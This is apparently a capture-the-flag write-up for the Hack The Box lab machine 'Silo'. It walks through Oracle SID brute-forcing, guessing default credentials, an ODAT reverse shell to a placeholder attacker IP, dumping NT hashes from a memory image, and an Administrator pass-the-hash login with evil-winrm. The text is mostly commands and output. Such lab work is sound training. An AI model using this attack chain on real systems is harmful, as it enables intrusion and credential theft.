


# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.95.188

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-29 09:21 GMT
Warning: 10.129.95.188 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.95.188
Host is up (0.16s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
1521/tcp  open     oracle
4689/tcp  filtered altovacentral
5985/tcp  open     wsman
47001/tcp open     winrm
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
49161/tcp open     unknown
49162/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 594.84 seconds
"
```

```bash
nmap -p 80,135,139,445,1521,4689,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sC -sV 10.129.95.188

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-29 09:33 GMT
Nmap scan report for 10.129.95.188
Host is up (0.16s latency).

PORT      STATE  SERVICE       VERSION
80/tcp    open   http          Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open   oracle-tns    Oracle TNS listener 11.2.0.2.0 (unauthorized)
4689/tcp  closed altovacentral
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open   msrpc         Microsoft Windows RPC
49153/tcp open   msrpc         Microsoft Windows RPC
49154/tcp open   msrpc         Microsoft Windows RPC
49155/tcp open   msrpc         Microsoft Windows RPC
49159/tcp open   oracle-tns    Oracle TNS listener (requires service name)
49160/tcp open   msrpc         Microsoft Windows RPC
49161/tcp open   msrpc         Microsoft Windows RPC
49162/tcp open   msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-29T09:35:20
|_  start_date: 2023-10-29T09:20:11
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.57 seconds
"
```

## **View Website**



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.95.188/ -w /usr/share/wordlists/dirb/common.txt -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.188/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/29 09:38:01 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 158] [--> http://10.129.95.188/aspnet_client/]
                                                                                         
===============================================================
2023/10/29 09:39:15 Finished
===============================================================
"
```

## Enumerating Website (Failed)

### IIS Short Filename Enumeration

```bash
shortscan http://10.129.95.188

"
Shortscan v0.6 · an IIS short filename enumeration tool by bitquark
Target: http://10.129.95.188/
Running: Microsoft-IIS/8.5 (ASP.NET v4.0.30319)
Vulnerable: Yes!
--------------------------------------------------------------------------------
ASPNET~1             ASPNET?             ASPNET_CLIENT
--------------------------------------------------------------------------------
Finished! Requests: 171; Retries: 0; Sent 32770 bytes; Received 74489 bytes
"
```

### WebDav Test

```bash
davtest -url http://10.129.95.188/

"
********************************************************
 Testing DAV connection
OPEN		FAIL:	http://10.129.95.188	Server response: 405 Method Not Allowed
"
```

Nothing interesting in Port 80.

## Enumerating Oracle

### Finding Oracle SID

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.129.95.188 oracle-sid

"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-29 10:04:16
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 576 login tries (l:576/p:1), ~36 tries per task
[DATA] attacking oracle-sid://10.129.95.188:1521/
[1521][oracle-sid] host: 10.129.95.188   login: XE
[1521][oracle-sid] host: 10.129.95.188   login: PLSExtProc
[STATUS] 554.00 tries/min, 554 tries in 00:01h, 22 to do in 00:01h, 16 active
[1521][oracle-sid] host: 10.129.95.188   login: CLRExtProc
[1521][oracle-sid] host: 10.129.95.188
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-29 10:05:30
"
```

We found 3 SIDs.

```
XE
PLSExtProc
CLRExtProc
```

### Finding Credentials

Installing the tools required for enumeration

[https://github.com/quentinhardy/odat](https://github.com/quentinhardy/odat)

Decompress the executable

```bash
tar -xf odat-linux-libc2.17-x86_64.tar.gz
```

Searching valid accounts with oracle default credentials

```bash
./odat-libc2.17-x86_64 passwordguesser -s 10.129.95.188 -d XE -p 1521

"
[1] (10.129.95.188:1521): Searching valid accounts on the 10.129.95.188 server, port 1521
The login cis has already been tested at least once. What do you want to do:                                                                         | ETA:  00:12:20 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                                                                       | ETA:  00:17:55 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                                                                       | ETA:  00:16:53 
[!] Notice: 'dip' account is locked, so skipping this username for password                                                                          | ETA:  00:15:32 
[!] Notice: 'hr' account is locked, so skipping this username for password                                                                           | ETA:  00:11:50 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                                                                        | ETA:  00:08:43 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password#########                                                          | ETA:  00:06:39 
[!] Notice: 'outln' account is locked, so skipping this username for password####################                                                    | ETA:  00:05:56 
[+] Valid credentials found: scott/tiger. Continue...                     ##############################################                             | ETA:  00:03:13 
 94% |######################################################################################################################################         | ETA:  00:00:58
"
```

# Exploitation

## Odat DbmsScheduler Docs

```bash
./odat-libc2.17-x86_64 dbmsscheduler -h

`
usage: odat-libc2.17-x86_64 dbmsscheduler [-h] [-v] [--sleep TIMESLEEP] [--encoding ENCODING] [-s SERVER] [-p PORT] [-U USER] [-P PASSWORD] [-d SID]
                                          [-n SERVICENAME] [--client-driver CLIENT-DRIVER] [--sysdba] [--sysoper] [--exec EXEC]
                                          [--reverse-shell ip port] [--cmd-exe] [--make-download urlToFile remotefilePath] [--test-module]
                                          [--no-color] [--output-file OUTPUTFILE]

optional arguments:
  -h, --help                                show this help message and exit
  -v                                        enable verbosity (-vv for more)
  --sleep TIMESLEEP                         time sleep between each test or request (default: 0)
  --encoding ENCODING                       output encoding (default: utf8)

connection options:
  -s SERVER                                 server
  -p PORT                                   port (Default 1521)
  -U USER                                   Oracle username
  -P PASSWORD                               Oracle password
  -d SID                                    Oracle System ID (SID)
  -n SERVICENAME                            Oracle Service Name
  --client-driver CLIENT-DRIVER             Set client driver name (default: SQL*PLUS)
  --sysdba                                  connection as SYSDBA
  --sysoper                                 connection as SYSOPER

DBMSScheduler commands:
  --exec EXEC                               execute a system command on the remote system
  --reverse-shell ip port                   get a reverse shell. Use Python on Linux targets. On Windows, uses Powershell (download a script file and executes it remotely)
  --cmd-exe                                 execute command in a "cmd.exe /c" (for --exec with Windows target only)
  --make-download urlToFile remotefilePath  make the windows target download a local file with powershell over http
  --test-module                             test the module before use it

output configurations:
  --no-color                                no color for output
  --output-file OUTPUTFILE                  save results in this file
`
```

Here we can use `--reverse-shell <attacker ip> <attacker port>` to get a reverse shell.

## Listen to Reverse Shell and Exploit

```bash
./odat-libc2.17-x86_64 dbmsscheduler -U scott -P tiger -d XE -s 10.129.95.188 --sysdba --reverse-shell <attacker ip> 4444

`
[1] (10.129.95.188:1521): Try to give you a reverse shell from the 10.129.95.188 server
Give me the local port for the temporary http file server {e.g. 8080): 8080
10.129.95.188 - - [31/Oct/2023 14:17:47] "GET /HBZLEJMNYT HTTP/1.1" 200 -
[+] The Job is finish
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: bind to 0.0.0.0:4444: Address already in use. QUITTING.
[+] The Job is running
[+] The Job is finish
`
```

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.95.188.
Ncat: Connection from 10.129.95.188:49164.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>
"
```

# Privilege Escalation

## Enumerating Oracle Memory Dump File

```powershell
dir

"
C:\Users\Phineas\Desktop> dir
  Volume in drive C has no label.
 Volume Serial Number is 69B2-6341

 Directory of C:\Users\Phineas\Desktop

01/07/2018  02:03 PM    <DIR>          .
01/07/2018  02:03 PM    <DIR>          ..
01/05/2018  10:56 PM               300 Oracle issue.txt
10/31/2023  01:17 PM                34 user.txt
               2 File(s)            334 bytes
               2 Dir(s)   7,395,201,024 bytes free
"
```

When I routed to `Phineas\Desktop` to get a user flag, I found the file called `Oracle issue.txt` which could led us to privilege escalation.

### Viewing Oracle issue.txt

```bash
type Oracle*

"
 Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
"
```

When visiting the link, it will request for password. Unfortunately the link password didn’t work and I had to look for several walkthrough to find the answer for this question. 

Eventually, there was some encoding output problem with the `type` command. 

The password to the link is `£%Hm8646uC$`

Reference:

[HTB: Silo](https://0xdf.gitlab.io/2018/08/04/htb-silo.html#desktop-note)

Downloading the memory dump from Dropbox



### Using Memory Dump Utility (Volatility3) to find User NT Hash

Download Volotility3

[https://github.com/volatilityfoundation/volatility3](https://github.com/volatilityfoundation/volatility3)

Enumerate Windows information using the dump file

```bash
python3 vol.py -f SILO-20180105-221806.dmp windows.info.Info

"
Volatility 3 Framework 2.5.2
Progress:  100.00		PDB scanning finished                                                                                              
Variable	Value

Kernel Base	0xf8007828a000
DTB	0x1a7000
Symbols	file:///home/htb-daeisbae/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/A9BBA3C139724A738BE17665DB4393CA-1.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 WindowsCrashDump64Layer
base_layer	2 FileLayer
KdVersionBlock	0xf80078520d90
Major/Minor	15.9600
MachineType	34404
KeNumberProcessors	2
SystemTime	2018-01-05 22:18:07
NtSystemRoot	C:\Windows
NtProductType	NtProductServer
NtMajorVersion	6
NtMinorVersion	3
PE MajorOperatingSystemVersion	6
PE MinorOperatingSystemVersion	3
PE Machine	34404
PE TimeDateStamp	Thu Aug 22 08:52:38 2013]
"
```

### Troubleshooting Windows.Hashdump Plugin

```bash
python3 vol.py -f SILO-20180105-221806.dmp windows.hashdump -vv

`
Volatility 3 Framework 2.5.2
INFO     volatility3.cli: Volatility plugins path: ['/home/htb-daeisbae/volatility3/volatility3/plugins', '/home/htb-daeisbae/volatility3/volatility3/framework/plugins']
INFO     volatility3.cli: Volatility symbols path: ['/home/htb-daeisbae/volatility3/volatility3/symbols', '/home/htb-daeisbae/volatility3/volatility3/framework/symbols']
DEBUG    volatility3.framework: Traceback (most recent call last):
  File "/home/htb-daeisbae/volatility3/volatility3/framework/__init__.py", line 185, in import_file
    importlib.import_module(module)
  File "/usr/lib/python3.9/importlib/__init__.py", line 127, in import_module
    return _bootstrap._gcd_import(name[level:], package, level)
  File "<frozen importlib._bootstrap>", line 1030, in _gcd_import
  File "<frozen importlib._bootstrap>", line 1007, in _find_and_load
  File "<frozen importlib._bootstrap>", line 986, in _find_and_load_unlocked
  File "<frozen importlib._bootstrap>", line 680, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 790, in exec_module
  File "<frozen importlib._bootstrap>", line 228, in _call_with_frames_removed
  File "/home/htb-daeisbae/volatility3/volatility3/framework/plugins/windows/lsadump.py", line 8, in <module>
    from Crypto.Cipher import ARC4, DES, AES
ModuleNotFoundError: No module named 'Crypto'

DEBUG    volatility3.framework: Failed to import module volatility3.plugins.windows.lsadump based on file: /home/htb-daeisbae/volatility3/volatility3/framework/plugins/windows/lsadump.py
DEBUG    volatility3.framework: Traceback (most recent call last):
  File "/home/htb-daeisbae/volatility3/volatility3/framework/__init__.py", line 185, in import_file
    importlib.import_module(module)
  File "/usr/lib/python3.9/importlib/__init__.py", line 127, in import_module
    return _bootstrap._gcd_import(name[level:], package, level)
  File "<frozen importlib._bootstrap>", line 1030, in _gcd_import
  File "<frozen importlib._bootstrap>", line 1007, in _find_and_load
  File "<frozen importlib._bootstrap>", line 986, in _find_and_load_unlocked
  File "<frozen importlib._bootstrap>", line 680, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 790, in exec_module
  File "<frozen importlib._bootstrap>", line 228, in _call_with_frames_removed
  File "/home/htb-daeisbae/volatility3/volatility3/framework/plugins/windows/cachedump.py", line 8, in <module>
    from Crypto.Cipher import ARC4, AES
ModuleNotFoundError: No module named 'Crypto'
`
```

Here, we did not have the package `Crypto` which led the program to Fail

Let’s install the required packages

```bash
pip3 install -r requirements.txt
```

### Extracting the Hash from the Dump File

```bash
python3 vol.py -f SILO-20180105-221806.dmp windows.hashdump

"
Volatility 3 Framework 2.5.2
Progress:  100.00		PDB scanning finished                                
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	9e730375b7cbcebf74ae46481e07b0c7
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
Phineas	1002	aad3b435b51404eeaad3b435b51404ee	8eacdd67b77749e65d3b3d5c110b0969
"
```

### Exploit (using the Administrator NT Hash)

```bash
evil-winrm -u Administrator -H 9e730375b7cbcebf74ae46481e07b0c7 -i 10.129.95.188

"
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
"
```

# Reference

- [https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener)
- [https://0xdf.gitlab.io/2018/08/04/htb-silo.html#desktop-note](https://0xdf.gitlab.io/2018/08/04/htb-silo.html#desktop-note)
- [https://volatility3.readthedocs.io/en/latest/getting-started-windows-tutorial.html](https://volatility3.readthedocs.io/en/latest/getting-started-windows-tutorial.html)